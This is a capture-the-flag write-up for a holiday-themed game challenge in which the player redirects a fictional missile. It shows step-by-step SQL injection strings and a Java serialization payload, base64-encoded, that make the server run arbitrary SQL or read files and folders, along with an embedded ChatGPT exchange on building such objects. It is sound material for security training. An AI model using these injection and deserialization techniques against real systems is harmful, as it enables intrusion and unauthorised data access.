









# Missile Diversion

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star:<br/>

## Objective

!!! question "Request"
    Thwart Jack's evil plan by re-aiming his missile at the Sun.

??? quote "Wombley Cube"
    A fellow sabateur, are you? Or just a misguided hero-wannabe?<br>
    You think you're saving the holiday season, but you're meddling in<br>
    something you could never understand!<br>
    Yes, I sided with Jack, because Santa's betrayed the elves by forcing us<br>
    to move our operations to these islands!<br>
    He put the entire holiday season at risk, and I could not allow this, I<br>
    had to do something.<br>
    Knowing my skillset, Jack secretly informed me of his plan to show Santa<br>
    the error of his ways, and recruited me to aid his mission.<br>
    Why tell you all this? Because it won't change anything. Everything is<br>
    already in motion, and you're too late.<br>
    Plus, the satellite is state-of-the-art, and -- oh drat, did I leave the<br>
    admin tools open?<br>
    For some reason, I can't move when you're nearby, but if I could, I<br>
    would surely stop you!

## Solution

Before starting this challenge, you must first complete [Camera Access](./camera_access.md).

First, open the satellite tool using the same proccess as in [Camera Access](./camera_access.md).<br>
Next, run the ```missile-targeting-system``` app and connect to the URI.



The ```Action service``` tab has a ```Debug``` action. Submit this action and check the ```Debug``` parameter in the ```Parameter service``` tab.



There seems to be a database that is being communicated with. To check if this can be exploited, open wireshark and re-submit the action.<br>
Opening the tcp stream seems to show a SQL command being used (sqlDebug).



The action can be submitted with a string argument. To see if this changes anything, click the edit button before submitting the action.



Checking the ```Debug``` parameter shows that the value changed.



Maybe we can use this string argument to run database commands. To test this, try to show the databases with ```; SHOW DATABASES;``` as the argument.



It worked! Now show the tables in the ```missile_targeting_system``` database.

```
; SHOW TABLES FROM missile_targeting_system;
```



Next, check your permissions to see what can be done to the database entries.

```
; SHOW GRANTS;
```



It looks like the ```satellite_query``` is the only thing that can be tampered with.

```
; SELECT * FROM satellite_query;
```

Use wireshark to intercept the response (it doesn't fit on the screen).

```java
...
VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204 | 
jid: 1 | object: ........sr..SatelliteQueryFileFolderUtility.......................Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.)/opt/SatelliteQueryFileFolderUtility.java | results:
...
public class SatelliteQueryFileFolderUtility implements Serializable {
    private String pathOrStatement;
    private boolean isQuery;
    private boolean isUpdate;

    public SatelliteQueryFileFolderUtility(String pathOrStatement, boolean isQuery, boolean isUpdate) {
        this.pathOrStatement = pathOrStatement;
        this.isQuery = isQuery;
        this.isUpdate = isUpdate;
    }

    ...
}
```

It looks like a serialized java object can be inserted and the program will use it to either execute a database command or list a file or directory. To test this, create a java program to output a serialized object that can be pasted into the program.

??? "ChatGPT Conversation"
    Prompt: How can I put a java serialized object into a user input field?

    Response: Embedding a Java serialized object directly into a user input field is not a typical or recommended practice. User input fields in applications, especially web applications, are designed to handle textual data, not binary serialized objects. Serializing and deserializing Java objects involves converting them to a binary format, which is not suitable for direct input into text fields.

    Instead, if you need to send data from a Java application to a user interface, you should consider using appropriate data interchange formats, such as JSON or XML. These formats are text-based and can be easily handled by user input fields.

    Here's a basic example of how you might convert a Java object to JSON using the Jackson library:

    1. Add the Jackson library to your project. If you're using Maven, you can add the following dependency to your `pom.xml` file:

       ```xml
       <dependency>
           <groupId>com.fasterxml.jackson.core</groupId>
           <artifactId>jackson-databind</artifactId>
           <version>2.13.0</version> <!-- Use the latest version available -->
       </dependency>
       ```

    2. Use Jackson to convert your Java object to JSON:

       ```java
       import com.fasterxml.jackson.databind.ObjectMapper;

       public class MyObject {
           private String name;
           private int age;

           // getters and setters

           public static void main(String[] args) throws Exception {
               MyObject myObject = new MyObject();
               myObject.setName("John");
               myObject.setAge(25);

               // Convert Java object to JSON
               ObjectMapper objectMapper = new ObjectMapper();
               String jsonString = objectMapper.writeValueAsString(myObject);

               System.out.println("JSON String: " + jsonString);
           }
       }
       ```

    In this example, you can now take the `jsonString` and use it as input for a user interface or any other text-based communication.

    If your use case requires binary data, consider encoding it as a Base64 string before putting it into a text field. Keep in mind that this is not a recommended practice for all situations, and the choice depends on the specific requirements of your application.

    Prompt: I am not writing an application, I am trying to input a java serialized object into the input field to see what happens. How can I achieve this?

    Response: If you are attempting to input a serialized Java object directly into a text field for experimental purposes or testing, you can follow these steps:

    1. **Serialize the Object:**
       Use Java's `ObjectOutputStream` to serialize your object into a byte array. Here's a simple example:

        ```java
        import java.io.ByteArrayOutputStream;
        import java.io.ObjectOutputStream;
        import java.io.Serializable;

        public class SerializationExample {
            public static void main(String[] args) throws Exception {
                // Create a sample object to serialize
                SerializableObject obj = new SerializableObject("John Doe", 30);

                // Serialize the object to a byte array
                ByteArrayOutputStream byteStream = new ByteArrayOutputStream();
                ObjectOutputStream objectStream = new ObjectOutputStream(byteStream);
                objectStream.writeObject(obj);
                objectStream.close();

                byte[] serializedData = byteStream.toByteArray();

                // Print the serialized data as a string (for easy input)
                String serializedString = new String(serializedData);
                System.out.println("Serialized String: " + serializedString);
            }
        }

        class SerializableObject implements Serializable {
            private String name;
            private int age;

            public SerializableObject(String name, int age) {
                this.name = name;
                this.age = age;
            }

            // Getters and setters
        }
        ```

       Run this program to obtain the serialized string.

    2. **Input Serialized String:**
       Copy the serialized string and paste it into the input field.

    3. **Deserialization:**
       If you have control over the receiving end (e.g., another Java program), you can then deserialize the string back into an object using `ObjectInputStream`. This is usually done in a separate program.

        ```java
        import java.io.ByteArrayInputStream;
        import java.io.ObjectInputStream;

        public class DeserializationExample {
            public static void main(String[] args) throws Exception {
                // Replace serializedString with the actual serialized string
                String serializedString = "YOUR_SERIALIZED_STRING_HERE";

                // Convert the serialized string back to a byte array
                byte[] serializedData = serializedString.getBytes();

                // Deserialize the byte array to an object
                ByteArrayInputStream byteStream = new ByteArrayInputStream(serializedData);
                ObjectInputStream objectStream = new ObjectInputStream(byteStream);

                SerializableObject deserializedObject = (SerializableObject) objectStream.readObject();

                // Use the deserialized object as needed
                System.out.println("Deserialized Object: " + deserializedObject.getName() + ", " + deserializedObject.getAge());
            }
        }
        ```

    Please note that deserializing data received from an untrusted source can pose security risks (serialization vulnerabilities). In a real-world scenario, you should avoid directly inputting serialized objects from untrusted sources.

    Prompt: The output of the serialization example contains illegal characters. How can I fix this while preserving the serialized object?

    Response: When you serialize an object and convert the resulting byte array to a string, you might encounter issues with illegal characters, especially if the byte array contains non-printable or special characters. To address this, you can encode the byte array into a printable format, such as Base64, before converting it to a string. This way, you can safely include the serialized data in a text field.

    Here's how you can modify the SerializationExample to use Base64 encoding:

    ```java
    import java.io.ByteArrayOutputStream;
    import java.io.ObjectOutputStream;
    import java.io.Serializable;
    import java.util.Base64;

    public class SerializationExample {
        public static void main(String[] args) throws Exception {
            // Create a sample object to serialize
            SerializableObject obj = new SerializableObject("John Doe", 30);

            // Serialize the object to a byte array
            ByteArrayOutputStream byteStream = new ByteArrayOutputStream();
            ObjectOutputStream objectStream = new ObjectOutputStream(byteStream);
            objectStream.writeObject(obj);
            objectStream.close();

            // Encode the byte array using Base64
            String base64Encoded = Base64.getEncoder().encodeToString(byteStream.toByteArray());

            // Print the Base64 encoded string
            System.out.println("Base64 Encoded String: " + base64Encoded);
        }
    }

    class SerializableObject implements Serializable {
        private String name;
        private int age;

        public SerializableObject(String name, int age) {
            this.name = name;
            this.age = age;
        }

        // Getters and setters
    }
    ```

    Now, the `base64Encoded` string is safe to include in a text field. When you want to deserialize it, you can decode the Base64 string back to a byte array before deserialization. Update the DeserializationExample accordingly:

    ```java
    import java.io.ByteArrayInputStream;
    import java.io.ObjectInputStream;
    import java.util.Base64;

    public class DeserializationExample {
        public static void main(String[] args) throws Exception {
            // Replace base64Encoded with the actual Base64 encoded string
            String base64Encoded = "YOUR_BASE64_ENCODED_STRING_HERE";

            // Decode the Base64 string to a byte array
            byte[] decodedData = Base64.getDecoder().decode(base64Encoded);

            // Deserialize the byte array to an object
            ByteArrayInputStream byteStream = new ByteArrayInputStream(decodedData);
            ObjectInputStream objectStream = new ObjectInputStream(byteStream);

            SerializableObject deserializedObject = (SerializableObject) objectStream.readObject();

            // Use the deserialized object as needed
            System.out.println("Deserialized Object: " + deserializedObject.getName() + ", " + deserializedObject.getAge());
        }
    }
    ```

    This way, you can safely pass the Base64-encoded string between different components, preserving the serialized object while avoiding issues with illegal characters.

Here is the java program I created with the help of ChatGPT:

??? "Serialize.java"
    ```java
    import java.io.ByteArrayOutputStream;
    import java.io.ObjectOutputStream;
    import java.util.Base64;

    public class Serialize {
        public static void main(String[] args) throws Exception {
            // Create a sample object to serialize
            SatelliteQueryFileFolderUtility obj = new SatelliteQueryFileFolderUtility(args[0], !args[0].equals("false"), !args[0].equals("false"));
            
            // Serialize the object to a byte array
            ByteArrayOutputStream byteStream = new ByteArrayOutputStream();
            ObjectOutputStream objectStream = new ObjectOutputStream(byteStream);
            objectStream.writeObject(obj);
            objectStream.close();
            
            // Encode the byte array using Base64
            String base64Encoded = Base64.getEncoder().encodeToString(byteStream.toByteArray());
            
            // Print the Base64 encoded string
            System.out.println("Base64 Encoded String: " + base64Encoded);
        }
    }
    ```

??? "SatelliteQueryFileFolderUtility.java (found in the satellite database response)"
    ```java
    import com.google.gson.Gson;

    import java.io.IOException;
    import java.io.Serializable;
    import java.nio.charset.StandardCharsets;
    import java.nio.file.Files;
    import java.nio.file.Path;
    import java.nio.file.Paths;
    import java.sql.Connection;
    import java.sql.PreparedStatement;
    import java.sql.ResultSet;
    import java.sql.SQLException;
    import java.util.ArrayList;
    import java.util.HashMap;
    import java.util.List;
    import java.util.stream.Collectors;
    import java.util.stream.Stream;

    public class SatelliteQueryFileFolderUtility implements Serializable {
        private String pathOrStatement;
        private boolean isQuery;
        private boolean isUpdate;
        
        public SatelliteQueryFileFolderUtility(String pathOrStatement, boolean isQuery, boolean isUpdate) {
            this.pathOrStatement = pathOrStatement;
            this.isQuery = isQuery;
            this.isUpdate = isUpdate;
        }
        
        public String getResults(Connection connection) {
            if (isQuery && connection != null) {
                if (!isUpdate) {
                    try (PreparedStatement selectStmt = connection.prepareStatement(pathOrStatement);
                         ResultSet rs = selectStmt.executeQuery()) {
                        List<HashMap<String, String>> rows = new ArrayList<>();
                        while(rs.next()) {
                            HashMap<String, String> row = new HashMap<>();
                            for (int i = 1; i <= rs.getMetaData().getColumnCount(); i++) {
                                String key = rs.getMetaData().getColumnName(i);
                                String value = rs.getString(i);
                                row.put(key, value);
                            }
                            rows.add(row);
                        }
                        Gson gson = new Gson();
                        String json = gson.toJson(rows);
                        return json;
                    } catch (SQLException sqle) {
                        return "SQL Error: " + sqle.toString();
                    }
                } else {
                    try (PreparedStatement pstmt = connection.prepareStatement(pathOrStatement)) {
                        pstmt.executeUpdate();
                        return "SQL Update completed.";
                    } catch (SQLException sqle) {
                        return "SQL Error: " + sqle.toString();
                    }
                }
            } else {
                Path path = Paths.get(pathOrStatement);
                try {
                    if (Files.notExists(path)) {
                        return "Path does not exist.";
                    } else if (Files.isDirectory(path)) {
                        // Use try-with-resources to ensure the stream is closed after use
                        try (Stream<Path> walk = Files.walk(path, 1)) { // depth set to 1 to list only immediate contents
                            return walk.skip(1) // skip the directory itself
                                    .map(p -> Files.isDirectory(p) ? "D: " + p.getFileName() : "F: " + p.getFileName())
                                    .collect(Collectors.joining("\n"));
                        }
                    } else {
                        // Assume it's a readable file
                        return new String(Files.readAllBytes(path), StandardCharsets.UTF_8);
                    }
                } catch (IOException e) {
                    return "Error reading path: " + e.toString();
                }
            }
        }
        
        public String getpathOrStatement() {
            return pathOrStatement;
        }
    }
    ```

Using this, you can check your permissions again through the new java serialized object.<br>

Create serialized object.

```
java -jar Serialize-1.0-SNAPSHOT.jar "SHOW GRANTS;" true false
```

Use serialized object.

```
; INSERT satellite_query SET object=FROM_BASE64('rO0ABXNyAB9TYXRlbGxpdGVRdWVyeUZpbGVGb2xkZXJVdGlsaXR5EtT2jQ6zkssCAANaAAdpc1F1ZXJ5WgAIaXNVcGRhdGVMAA9wYXRoT3JTdGF0ZW1lbnR0ABJMamF2YS9sYW5nL1N0cmluZzt4cAEAdAAMU0hPVyBHUkFOVFM7')
```

Check response.

```
; SELECT * FROM satellite_query;
```

Response intercepted by wireshark.

```
object: ... | results: [...,{"Grants for targeter_admin@%":"GRANT SELECT, UPDATE ON `missile_targeting_system`.`pointing_mode` TO `targeter_admin`@`%`"},...]
```

Now we can update the ```pointing_mode```. Since it's current value is 0, 1 will probably point it at the sun instead of the earth.

```
java -jar Serialize-1.0-SNAPSHOT.jar "UPDATE pointing_mode SET numerical_mode=1;" true true
```

```
; INSERT satellite_query SET object=FROM_BASE64('rO0ABXNyAB9TYXRlbGxpdGVRdWVyeUZpbGVGb2xkZXJVdGlsaXR5EtT2jQ6zkssCAANaAAdpc1F1ZXJ5WgAIaXNVcGRhdGVMAA9wYXRoT3JTdGF0ZW1lbnR0ABJMamF2YS9sYW5nL1N0cmluZzt4cAEBdAApVVBEQVRFIHBvaW50aW5nX21vZGUgU0VUIG51bWVyaWNhbF9tb2RlPTE=')
```

Checking the ```Pointing Mode``` parameter shows that we were successful. The missile will now point towards the sun.



!!! success "Answer"
    Use SQL injection and Java object serialization to alter the trajectory of the missile.

## Response

!!! quote "Wombley Cube"
    A... _missile..._ aimed for Santa's sleigh? I had no idea...<br>
    I can't believe I was manipulated like this. I've been trained to recognize these kinds of tactics!<br>
    Santa should never have put the holiday season at risk like he did, but I didn't know Jack's true intentions.<br>
    I'll help you bring Jack to justice...<br>
    But my mission to ensure Santa never again compromises the holidays is still in progress.<br>
    It sounded like the satellite crashed. Based on the coordinates, looks like the crash site is right near Rudolph's Rest.<br>
    Use the door to the right to return to the resort lobby and see what happened!<br>
    Don't worry, I'll meet you there... trust me.
